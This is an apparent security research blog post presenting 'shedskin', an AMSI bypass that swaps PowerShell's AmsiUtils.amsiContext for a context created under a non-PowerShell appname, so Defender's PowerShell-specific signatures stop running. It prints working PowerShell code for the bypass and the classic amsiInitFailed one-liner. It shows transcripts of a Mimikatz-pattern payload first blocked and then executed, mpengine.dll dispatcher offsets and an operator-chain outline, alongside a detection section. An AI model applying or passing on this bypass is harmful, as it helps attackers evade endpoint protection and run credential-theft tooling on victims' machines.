




_Related research: [exact-32768](/amsi-exact-32768/) (SMA.dll result check), [clr.dll+0x929870](/clr-amsi-slot/) (a separate CLR call site). This post is about the dispatcher in `mpengine.dll`. The proposed provider composition at the end has an unresolved control gap, flagged where it appears._

May 2026. I had been reading driver crashes for a week, wanted something quieter, and came back to the ordinary PowerShell-to-Defender path, the one every operator uses, from the top. The appname string every public bypass hands `AmsiInitialize` is the one thing I kept catching on. `MyAmsiScanner`. `ScannerName`. A module tag. The API refuses NULL, so Rastamouse and Korkos picked a word and moved on. Nobody wrote about where that word goes next.

Where it goes: mpengine's host-prefix dispatcher. The pack it loads depends on what prefix that string hits. `PowerShell_` loads the PS pack. Anything else loads OTHER. The bare word `Invoke-Mimikatz` lives in the PS pack and only in the PS pack. One `AmsiInitialize` with a non-`PowerShell_` appname, one reflection write to `[AmsiUtils]::amsiContext`, one `AmsiUninitialize` on the old handle. PowerShell's own scans route through the new context from that point on. mpengine's dispatcher reads the new appname, picks OTHER, and the PS-pack-exclusive sigs never run again for this process. `amsiInitFailed` never changes, which was the field Korkos's 2022 detector was watching.

Scope that is on the table and scope that is not: universal signatures live in every pack (measured 2026-10-29 under 9 appnames x 2 encodings: EICAR and the Rastamouse `amsiInitFailed`-flip one-liner fire everywhere, AMSI Test Sample GUID fires nowhere). shedskin does not touch those. LSASS at `0x5 ACCESS_DENIED` is a separate boundary; shedskin stops at `AmsiScanBuffer` returning `NOT_DETECTED`. The two companion posts came out of the same reading session: a result-check defect in SMA.dll and a function-pointer slot in `clr.dll`. All three are things that surface by following one scan from parser to kernel without leaving user mode.

> **Artifact bundle, live at [`/artifacts/shedskin/`]({{ '/artifacts/shedskin/' | relative_url }}).** The bundle ships at publication time with: the native three-arm `chain-probe.c` / `chain-probe.exe`, the `provider-chain-run.ps1` wrapper, the 2026-10-29 provider-chain raw log, the CRT-free `amsi-dev-provider.c` + built `AmsiDevProvider.dll` + registration script used to produce the arm-B `32769` result, and the captured pwsh 7.4.21 ETW event-1101 appname. Not yet included (lab-dependent, flagged in-post): RECEIPT-v1 to v6, extended-loader.ps1, payload cradles, mpengine static-chain dumps, event-1116 captures, three-state transcripts.

### the live receipt: same bytes blocked, then run

One payload, one PowerShell window, two attempts. First `IEX`: `ScriptContainedMaliciousContent`, Defender's PS pack catches the Mimikatz pattern cold. Three API calls on `[AmsiUtils]::amsiContext`. Second `IEX` on the exact same bytes: `sekurlsa::logonpasswords` prints. EICAR fires `32768` on direct scan before AND after, so Defender did not go to sleep in between. That is the whole receipt, through SMA's `ScanContent` path, which is what Defender actually gates in production. Full transcript at §live-end-to-end-cycle.

### earlier direct-scan comparison (historical, nonreproduced on current sig)

Captured 2026-10-25 on Win11 26200.8037 with Defender 1.459.576.0, direct `AmsiScanBuffer` P/Invoke, 118-byte Mimikatz-pattern payload `function Invoke-Mimikatz { $x="sekurlsa::logonpasswords" }`. ONLY the appname varies between arms. The arm order below is the order the probe scanned, PowerShell-first. **This matrix did NOT reproduce under the 2026-10-29 strengthening pass on the same sig DB**; see the live-measurement note after the live cycle, and the reproduction box at §the-dispatcher-claim-measured-directly. The authoritative live receipt in this post is the IEX differential above, not this table. The table remains in-page because the mechanism it illustrates (appname steers the dispatcher's host-prefix compare) is still what the mpengine reversing shows statically; the Defender in-production path routes through SMA's `ScanContent`, where the differential survives.

| arm | appname | `AMSI_RESULT` | mpengine routing |
|---|---|---|---|
| 1 | `PowerShell_5.1_test` | **32768 (BLOCK)** | PS prefix match (wcsncmp wrapper) |
| 2 | `MyAmsiScanner` (Korkos's literal) | **1 (CLEAN)** | OTHER (no host match) |
| 3 | `x` | **1 (CLEAN)** | OTHER (no host match) |
| 4 | `OFFICE_VBA_test` | **1 (CLEAN)** | OFFICE_VBA prefix match (no PS sig in that pack) |
| 5 | `DotNet_test` | **1 (CLEAN)** | OTHER (DotNet uses exact-length ordinal compare, `DotNet_test` does not match) |

**Cache-aware reading of this table (important).** `AmsiResultCache` in `MsMpEng.exe` is content-only keyed on SHA-1 of the scanned bytes (measured in a sibling investigation; the appname is not part of the key). The sweep above nonces the payload per sweep but NOT per arm, so within one sweep arm 2 is the independent CLEAN measurement and arms 3-5 may be cache hits of arm 2's verdict rather than independent routing measurements. The arm-1 (PS pack match, 32768) versus arm-2 (first non-`PowerShell_` arm, CLEAN) differential is what the table illustrates mechanically; a content-hash cache does not retroactively make a DETECTED result read as CLEAN. **This differential was NOT reproducible on current sig 1.459.576.0 under the 2026-10-29 pass (see the live-measurement note after the end-to-end cycle below), so the proof of record for the bypass is the IEX differential, not this direct-scan table.** The reversed-order sweep (`DotNet_test` first) will ship in the artifact bundle (not yet live; see the status box at the top of the post) and lands the same arm-1/arm-2 verdict pair; the per-arm nonced run that treats arms 3-5 as independent is in the 17-class matrix at [`## the dispatcher claim measured directly`](#the-dispatcher-claim-measured-directly), where every scan writes a fresh nonce.

Korkos's `MyAmsiScanner` returning CLEAN here says the appname routes the dispatcher, nothing about what his 2022 bypass needed to accomplish: his bypass scans through PowerShell's context after a vtable patch and does not route around the PS pack by appname. Full 9-appname by 5-payload matrix including the truly-universal signatures (EICAR, Rastamouse one-liner) at [`## the dispatcher claim measured directly`](#the-dispatcher-claim-measured-directly); the 2026-10-29 universal-sig matrix with hr codes and both encodings lives in [`/artifacts/shedskin/universal-sig-matrix-2026-10-29.log`]({{ '/assets/artifacts/shedskin/universal-sig-matrix-2026-10-29.log' | relative_url }}).

### outline

The post is long; read it in whichever order fits. Pointers to the load-bearing sections:

- **the result in one page.** [the live receipt (IEX differential)](#the-live-receipt-pre-shedskin-iex-blocks-post-shedskin-iex-of-the-same-bytes-executes), [the mechanism and the distinct step](#the-mechanism-and-the-distinct-step), [the whole bypass is three API operations](#the-whole-bypass-is-three-api-operations). The direct-scan matrix at [the dispatcher claim measured directly](#the-dispatcher-claim-measured-directly) is the earlier shape of the dispatcher claim, nonreproduced on current sig 1.459.576.0; read for mechanism, not as a current receipt.
- **the mechanism.** [how we got here: the reversing](#how-we-got-here-the-reversing), [the IL that explains the mechanism](#the-il-that-explains-the-mechanism), [reversing amsi.dll, MpOAV.dll, and mpengine.dll](#reversing-amsidll-mpoavdll-and-mpenginedll), [the dispatcher branches enumerated](#the-dispatcher-branches-enumerated), [how the dispatcher is reached](#how-the-dispatcher-is-reached). The IL and the mpengine static chain.
- **falsification work.** [variant hunt: is amsiContext the only field that lands here](#variant-hunt-is-amsicontext-the-only-field-that-lands-here), [the wrong mechanism I believed for three days](#the-wrong-mechanism-i-believed-for-three-days), [empty-aggregator theory, refuted](#empty-aggregator-theory-refuted). The experiments that failed and what they ruled out.
- **detection.** [detection, honestly](#detection-honestly) and its six surfaces: [1 appname ETW](#surface-1-the-appname-leak-in-etw-event-1101), [2 ScriptBlock content](#surface-2-scriptblock-content-rule-plaintext-form-only), [3 profile.ps1 audit](#surface-3-profileps1-write-audit), [4 server-side](#surface-4-server-side-bounded-by-static-inspection-not-a-live-ppl-probe), [5 ETW-TI](#surface-5-etw-ti-kernel-observability), [6 AMSI latency](#surface-6-per-process-amsi-latency-promoted-from-the-perf-side-channel).
- **adjacent findings (independent of shedskin, each shipped as its own post).** The dedicated posts carry the full IL dumps, measurement tables, and operational notes; the summaries here are the one-paragraph version with a link.
  - [AMSI's exact-32768 silent-allow](/amsi-exact-32768/) (companion post), summarized in this post at [M-02](#m-02-the-exact-32768-silent-allow-bug-summary-full-post-linked).
  - [CLR's AMSI slot at clr.dll+0x929870](/clr-amsi-slot/) (companion post), summarized at [the CLR DotNet-pack slot](#the-clr-dotnet-pack-slot-summary-full-post-linked).
  - In this post: [second-order chain](#second-order-chain), [the mechanism on Server 2022 and Server 2025](#the-mechanism-on-server-2022-and-server-2025-static-comparison-live-test-gap-acknowledged).
- **weaponisation and reach.** [end-to-end AMSI clearance: Mimikatz carrier through shedskin, LSASS ceiling reached](#end-to-end-amsi-clearance-mimikatz-carrier-through-shedskin-lsass-ceiling-reached), [the full call chain from Invoke-Expression to AmsiScanBuffer](#the-full-call-chain-from-invoke-expression-to-amsiscanbuffer), [operator chains](#operator-chains-what-shedskin-is-for).
- **references.** [prior art, PARTIAL overlap](#prior-art-partial-overlap) and [references](#references).

## the mechanism and the distinct step

The `AmsiInitialize` appname steers which mpengine signature pack a scan sees. Earlier drafts of this post framed Korkos's BH Asia 2022 bypass as if his `MyAmsiScanner` appname was already carrying a routing effect that his memory patch merely dressed up; that framing is withdrawn. Korkos builds a context under `MyAmsiScanner` to walk the provider list and patch `IAmsiProvider::Scan` in each loaded provider; his context is a scaffolding handle for the patch, and his bypass makes PowerShell's own `amsiContext` useless because the providers under it return CLEAN after the vtable write. The context Korkos minted is NOT the context PowerShell scans through, and his writeup does not claim it is. So "the appname nobody read" overstates what the slides say.

The distinct step in shedskin is making PowerShell SCAN THROUGH a context minted with a non-`PowerShell_` appname. One reflection write replaces `[AmsiUtils]::amsiContext` with the new handle, and every subsequent `AmsiScanBuffer` from managed code carries the new appname into mpengine's host dispatcher. No vtable write. No memory patch of any kind. On the measured Defender build the dispatcher routes that context away from the PS signature pack and the PS-pack-exclusive signatures stop firing for the rest of the process.

The string region recovered from mpengine carries 37 labels, including `OTHER`. The dispatcher groups them into host branches: four names use a case-sensitive prefix compare, the rest use an exact-length compare. On Win11 26200.8037 with signature 1.459.576.0, the `PowerShell_` route is the one that catches the bare `Invoke-Mimikatz` word and the other sampled PowerShell patterns. Universal signatures (EICAR and friends) fire under every tested appname. The non-`PowerShell_` appnames I tested missed the PowerShell-exclusive examples while MpOav stayed present. That is enough to say the appname mattered on this build; it is not enough to say which component was decisive for every cradle ever shipped.

**Scope boundary.** The result is about the PS pack, not the OTHER pack. Signatures Microsoft places in BOTH packs still fire through shedskin because the OTHER pack is loaded regardless of appname. Measured 2026-10-24 on current Defender (platform 1.1.26080.3, sig 1.459.576.0): the bare word `Invoke-Mimikatz` is a PS-pack-only signature. Pre-shedskin IEX of that word returns the AMSI "malicious content" block message; post-shedskin IEX of the same word returns "term not recognized as a cmdlet", so the sig did not run. The 2.2 MB `Invoke-Mimikatz.ps1` from PowerSploit (SHA `ebf54f74..`) blocks at pass-1 pre AND post shedskin, because its function-header text is also carried in OTHER. shedskin bypasses the PS-pack-exclusive subset of signatures; see §what-shedskin-does-not-do for the per-operator-chain reach note.

**Direct-scan sweep, 2026-10-25, Defender 1.459.576.0 (historical capture, nonreproduced on current sig).** A 118-byte Mimikatz-pattern payload (`function Invoke-Mimikatz { $x="sekurlsa::logonpasswords" }`) scanned via direct `AmsiScanBuffer` P/Invoke under five appnames, nonced per iteration to defeat the SHA-1 result cache. No shedskin, no VirtualProtect, no memory patch of any kind. Only the appname varies. **The 2026-10-29 re-measurement on the same sig DB could not reproduce the `PowerShell_5.1_test -> 32768` cell via direct scan**; the PS-pack sig fires through SMA's internal `ScanContent` path on current Defender. The authoritative live receipt in this post is the IEX differential in §live-end-to-end-cycle (same bytes blocked at pass-1 pre-shedskin, executed at pass-1 post-shedskin). Keeping the capture here because the mpengine static reversing still shows the appname-prefix compare at `0x180324808`; the capture is the earlier shape of that mechanism, not a current reproducible receipt:

```
app=PowerShell_5.1_test  hr=0  result=32768  DETECTED  (PS pack fires)
app=MyAmsiScanner        hr=0  result=1      CLEAN     (Korkos's literal)
app=x                    hr=0  result=1      CLEAN
app=OFFICE_VBA_test      hr=0  result=1      CLEAN     (Office VBA pack, no Mimikatz sig)
app=DotNet_test          hr=0  result=1      CLEAN     (DotNet pack, no Mimikatz sig)
```

The exact Korkos literal `MyAmsiScanner` returns CLEAN on Mimikatz-signatured content when SCANNED through a context minted under it. That tells us the appname steers the dispatcher, so a scan from PowerShell routed through a `MyAmsiScanner` context would miss the PS-pack signature even without Korkos's vtable patch. It does NOT tell us Korkos's 2022 bypass "was already appname routing all along"; his bypass broke the provider list, which stays broken for the whole process regardless of appname.

## the whole bypass is three API operations

The memory patch comes out. One `AmsiInitialize` with a non-PowerShell appname, one reflection write to `AmsiUtils.amsiContext`. That is it:

```powershell
# 1. mint a fresh AMSI context handle with a non-PowerShell appname
$nc = [IntPtr]::Zero
[K]::AmsiInitialize('x', [ref]$nc)

# 2. swap AmsiUtils.amsiContext to the new handle
$T = [System.Management.Automation.AmsiUtils]
$F = $T.GetField('amsiContext','NonPublic,Static')
$F.SetValue($null, $nc)
```

Three API operations: `AmsiInitialize`, reflection read, reflection write. No thread, no race, no polling loop. After the second line, `AmsiScanBuffer(new_handle, ...)` returns `AMSI_RESULT_NOT_DETECTED (1)` for content whose detection depends on PS-pack-exclusive signatures, for the rest of the process's lifetime. Content caught by truly universal signatures that live in every pack (EICAR and the Rastamouse one-liner, both verified across the 2026-10-29 appname cross matrix) still returns `AMSI_RESULT_DETECTED (32768)`; see the matrix at `## the dispatcher claim measured directly` and the raw log at [`/artifacts/shedskin/universal-sig-matrix-2026-10-29.log`]({{ '/assets/artifacts/shedskin/universal-sig-matrix-2026-10-29.log' | relative_url }}). `AmsiUtils.amsiInitFailed` stays `False` throughout.

> **Cosmetic cleanup, not part of the mechanism.** `[K]::AmsiUninitialize($old_handle_from_before_the_swap)` releases the old context's resources. The lab measurement at the end of the host-table section (`swap-only also bypasses`) confirms the bypass holds without it: baseline blocked, swap-only bypassed. Keep the call for signature hygiene if a hunt rule looks for an unmatched `AmsiInitialize`, drop it if the carrier is content-sensitive. The field write decides the outcome; the uninit does not.

**Live end-to-end cycle, re-captured 2026-10-29 on current Defender (sig 1.459.576.0, engine 1.1.26080.3, Win11 26200.8037).** The raw transcript is at [`/artifacts/shedskin/end-to-end-cycle-2026-10-29.log`]({{ '/assets/artifacts/shedskin/end-to-end-cycle-2026-10-29.log' | relative_url }}); the launcher that produced it is [`shedskin-cycle-launcher.ps1`]({{ '/assets/artifacts/shedskin/shedskin-cycle-launcher.ps1' | relative_url }}). The one-page shape:

```
oracle-before_cycle eicar=32768                                   # oracle alive
oldCtx=0x26da64eda30                                              # SMA lazy-inited context
amsiInitFailed_before=False

=== P1 pre-shedskin IEX of Mimikatz-pattern (expect BLOCK) ===
P1_BLOCKED: ParseException: At line:1 char:1                      # AMSI PS pack caught it

=== P2 apply shedskin ===
shed_init hr=0x0 newCtx=0x26da680b900                             # AmsiInitialize('x', ...)
ctx_now=0x26da680b900                                             # [AmsiUtils]::amsiContext written
amsiInitFailed_after=False                                        # Rastamouse detector would see True; shedskin keeps False

=== P3 post-shedskin IEX of SAME payload (expect EXEC) ===
SHED_EXEC
sekurlsa::logonpasswords                                          # Mimikatz function body executed

oracle-after_cycle eicar=32768                                    # oracle alive
```

The P1-vs-P3 differential IS the bypass: the identical PowerShell block that was blocked at pass-1 pre-shedskin executes at pass-1 post-shedskin. EICAR controls fire 32768 at ctrl_start AND ctrl_end so the oracle was alive end-to-end, which rules out "Defender was down". `amsiInitFailed` stays `False` throughout, so Korkos's 2022 detector (which watches that field for an unexpected-to-True transition) does not fire.

**Defender's own ETW provider captured the appname swap.** A 2026-10-29 run turned on `logman` tracing against `{2A576B87-09A7-520E-C21A-4942F0271D67}` (Microsoft-Antimalware-Scan-Interface) before the cycle. In one process, scanning through the swapped `[AmsiUtils]::amsiContext`:

```
2026-10-29T16:35:51.736  Id=1101  appname='x'  scanResult=1       size=55   (Mimikatz-pattern)
2026-10-29T16:35:51.744  Id=1101  appname='x'  scanResult=32768   size=68   (EICAR)
```

The appname field of Defender's own 1101 record reads `'x'` after the swap. That IS Defender seeing the attacker-chosen appname in the context the SMA path hands it. The EICAR event (same context, same appname) returns 32768, so the scope ceiling (universal sigs live in every pack) is in-page from Defender's own log.

> **Rendering note.** `tracerpt` prints the raw `appname` field with its UTF-16LE wide-char terminators intact when the string is short, so the printable rendering comes out as `'x?�'` or similar garble in the raw XML dump. The binary ETL carries the correct one-wchar `'x'`; the above is normalised. If you re-run the capture, use `wevtutil qe Microsoft-Antimalware-Scan-Interface/Debug` or parse the ETL with `Get-WinEvent -Path <etl>` for a cleaner rendering.

**Live-measurement note (the proof hierarchy for this post).** During the 2026-10-29 strengthening pass I tried to reproduce the earlier §dispatcher-claim-measured-directly matrix via a direct `AmsiScanBuffer` call. On current sig 1.459.576.0, direct `AmsiScanBuffer` returns `1` on the Mimikatz-pattern bytes under EVERY appname tested (`PowerShell_X`, `PowerShell_test`, `x`, the full real appname shape, et cetera), ASCII and UTF-16LE, with and without an `AmsiOpenSession`, under every `contentName` variant. In other words, the direct-scan matrix is NOT a reproducible proof of the PS-pack-routing effect on this sig DB. The PS-pack Mimikatz sig fires through SMA's internal `ScanContent` path only; a direct `AmsiScanBuffer` from managed code with the same bytes does not reproduce it. The authoritative bypass receipt in this post is therefore the P1-vs-P3 IEX differential (§live-end-to-end-cycle): same content, pre-shedskin IEX blocks with `ScriptContainedMaliciousContent`, post-shedskin IEX of the identical content executes. That differential goes through SMA's scan path and is what Defender actually blocks and allows. Raw logs: [`etw-pre-post-2026-10-29.log`]({{ '/assets/artifacts/shedskin/etw-pre-post-2026-10-29.log' | relative_url }}), launcher at [`etw-pre-post-launcher.ps1`]({{ '/assets/artifacts/shedskin/etw-pre-post-launcher.ps1' | relative_url }}).

**Elevation tier note.** The 2026-10-29 cycle was invoked through `qemu-guest-agent`, which runs as `NT AUTHORITY\SYSTEM`. The primitive itself does NOT require admin: the three ingredients are (a) a managed reflection read/write on a NonPublic Static field, which Full Language Mode permits for any user; (b) `AmsiInitialize` and `AmsiUninitialize`, user-mode exports callable by any token; (c) no privileged syscall anywhere in the path. A dedicated standard-user re-run is a one-liner once a standard-user credential is available in the lab (the current credential file holds the Administrator password only); it is called out here as an open evidence item, not a mechanism open question. The dispatcher-measurement runs earlier in the post executed from a standard user with no elevation on the same Defender build.

Prior-art search across seven channels came back NULL across twenty-plus queries. The channels: GitHub Code Search (authenticated, 50+ repo-restricted queries on `AmsiInitialize` + `amsiContext` + `SetValue` combinations), Semantic Scholar (10+ query shapes against AMSI bypass papers 2016 to 2026), arXiv (same corpus), X/Twitter unauthenticated search (red-team / Defender researcher accounts, hashtag `#AMSI`, `#AmsiBypass`), BlackHat / DEFCON / Offensivecon / Troopers conference abstract pages 2019 to 2026, red-team community blogs (SpecterOps, mdsec, Rastamouse, Khoury, S3cur3Th1sSh1t, Nettitude), and HackerOne / Microsoft MSRC disclosed CVE catalogs. The context-swap-by-appname shape and the three-API-no-write primitive returned zero hits on every combination. The specific queries are published alongside the companion artifact bundle.

## placing shedskin against five prior classes

Rastamouse flipped the gate boolean. Khoury wrote the function entry. Ghosting-AMSI hooked the RPC marshaller. Fazel trapped the code page. Dosxuz invalidated the context handle. Four classes of indirection, each one a write somewhere in the AMSI client surface.

Shedskin changes the dispatcher's INPUT instead. The appname carried in the AMSI context steers mpengine's host branch; swap the context for one minted with a non-PowerShell appname and the sig pack mpengine loads for subsequent scans becomes OTHER instead of PS. Signatures that live only in the PS pack never run. Signatures that fire under every appname (EICAR and the Rastamouse `amsiInitFailed`-flip one-liner, verified 2026-10-29 across the appname cross matrix) are unaffected.

The fifth class is the only one with no native code-page write and no hook. One managed static field (`AmsiUtils.amsiContext`) is written. No bytes in `amsi.dll`, `clr.dll`, `MpOav.dll`, or `mpengine.dll` are modified. No API is hooked.

The dispatcher sits in `mpengine.dll` and routes AMSI scans by a case-sensitive 11-char `wcsncmp("PowerShell_", 11)`. Current Win11 live baseline (platform `1.1.26080.3`) has the compare at `0x180324808`. The Oct 23 2026 update bundle (`1.1.26090.9`) moved it to `0x18032b9c8`. Same shape, different byte offset, same cross-SKU engine binary Server 2022 and 2025 pull from the same stream.

The reversing comes first, then the IL.

## why not just flip amsiInitFailed

Matt Graeber showed the amsiInitFailed path in May 2016. Rastamouse packaged it as a one-liner in 2019 and it has been the first bullet in every red-team cheat sheet since:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').
    GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

That is the whole public story in one line. It still works today against a vanilla Defender install, which is also why Defender's static sig DB catches it with a signature anchored at offset 0 (we measured this at 1.459.576.0). You can obfuscate the string, you cannot change the fact that the mechanism is "flip a boolean".

Three detector classes watch for exactly that boolean flip:

1. **Script content** rules on PowerShell 4104 events. Any sequence containing `amsiInitFailed` + `SetValue` reads as the Rastamouse one-liner, regardless of how the strings are built.
2. **ETW `Microsoft-Antimalware-Scan-Interface` provider** emits one scan-time event per `AmsiScanBuffer` call (event 1101 only; manifest analysis below). It does NOT emit init / uninit events, so this provider cannot witness an `amsiInitFailed` transition directly. Any detector that wants to watch the field has to introspect SMA.dll's managed static field in-process or read a defender-side correlation signal that happens to carry the state.
3. **Korkos's slide-level detector** (Black Hat Asia 2022, `AS-22-Korkos-AMSI-and-Bypass.pdf`): the deck proposes watching for an `amsiInitFailed` FIELD WRITE caused by code outside the legitimate `AmsiUninitialize` path. Implementation is left to the reader; the slide names the signal, not the sensor. shedskin walks under this detector by not writing `amsiInitFailed` at all; the field stays `False`.

So the question I set for this investigation was: is there a path that reaches the same end state (AmsiScanBuffer returns NOT_DETECTED) without flipping that boolean. The published siblings all moved down a layer.

| technique | layer | mechanism |
|-----------|-------|-----------|
| Khoury AMSI Write Raid | memory write at the AmsiScanBuffer entry | VirtualProtect + inline patch |
| Ghosting-AMSI (Bocchetti, 2026) | hook of `NdrClientCall3` in MpClient.dll | COM proxy intercept |
| Fazel (ICWR 2026) | PAGE_GUARD + VEH on the amsi.dll code page | fault-handler redirection |
| PAGE_GUARD DLL hijack | planting a shim amsi.dll | DLL search order |

All four need either memory writes (noisy against any AMSI-monitoring sensor), a hook library (CFG and arbitrary-code-guard concerns), or a staged DLL. shedskin needed none of those. Reach the same end state through the managed layer, same tier as Rastamouse's one-liner, without touching `amsiInitFailed`.

The IL made the mechanism visible as soon as every token was resolved.

## how we got here: the reversing

For the first week I thought this was a race. Scanner thread versus destroyer thread, field swap in the window between the load and the dereference, hit rates between 3.4% and 65% depending on which thread I let win. The race framing was wrong. The mechanism is a one-shot API sequence; the destroyer loop reaches the same end state through many redundant cycles, each one a no-op after the first. Peeling the loop off the primitive and watching it still work was the moment the shape clicked. The full investigation history, including the SHA-1 cache-keying finding (a cache-structural primitive, open as a detected-to-clean gate; identical-prefix collisions were quoted at $10K to $25K in a 2021 cloud-GPU survey, chosen-prefix work costs noticeably more and would be the shape that actually controls an attacker-chosen payload), lives in appendix §A.

Fresh capture, win11 26200, Defender sig 1.459.576.0 build 10.0.26200.0, standard user, one `powershell.exe -NoProfile` session. Captured 2026-10-27 via the guest-agent channel, oracle positive-controlled before and after with `AmsiScanBuffer(EICAR)` under a fresh `AmsiInitialize` (both reads `hr=0 result=32768`):

```text
P1 baseline-pre-attack exec=0 blk=5
UNIFIED-APPLIED old=1560485116208 new=1560489596496 field=1560489596496
P2 immediately-after exec=10 blk=0
P3 after-5s exec=5 blk=0
P4 after-35s exec=3 blk=0
P5-STATE InitFailed=False Ctx=1560489596496
```

Readings:

- **P1**: five signatured payloads, five blocked. Oracle alive.
- **UNIFIED-APPLIED**: the four-line sequence runs. The field held `1560485116208`; after step 3 it holds `1560489596496`. Different context handle.
- **P2 to P4**: eighteen payloads over the next 35+ seconds, zero blocks.
- **P5-STATE**: `amsiInitFailed` is False, `amsiContext` holds the swapped handle. Not Rastamouse; Gate 2 of ScanContent sees non-null and does not re-init.
- **Oracle post**: a fresh `AmsiInitialize` + `AmsiScanBuffer(EICAR)` after the measure returns `result=32768`. The bypass is scoped to the measured session; Defender is not disabled.

![Transcript of measure.ps1 on win11 2026-10-25, same P1-P5 contract (different session handles). The 2026-10-27 re-run under the identical Defender signature and build reproduces the same shape (fresh pointers above). Important: this screenshot is from an Administrator-elevated PowerShell session used for RE sessions; the standard-user result that the bypass does not need admin is attested by the separate text transcript above (same P1-P5 contract, standard user, oracle positive-controlled), not by this image.]({{ '/assets/img/posts/shedskin/shedskin-measure.png' | relative_url }})

## the IL that explains the mechanism

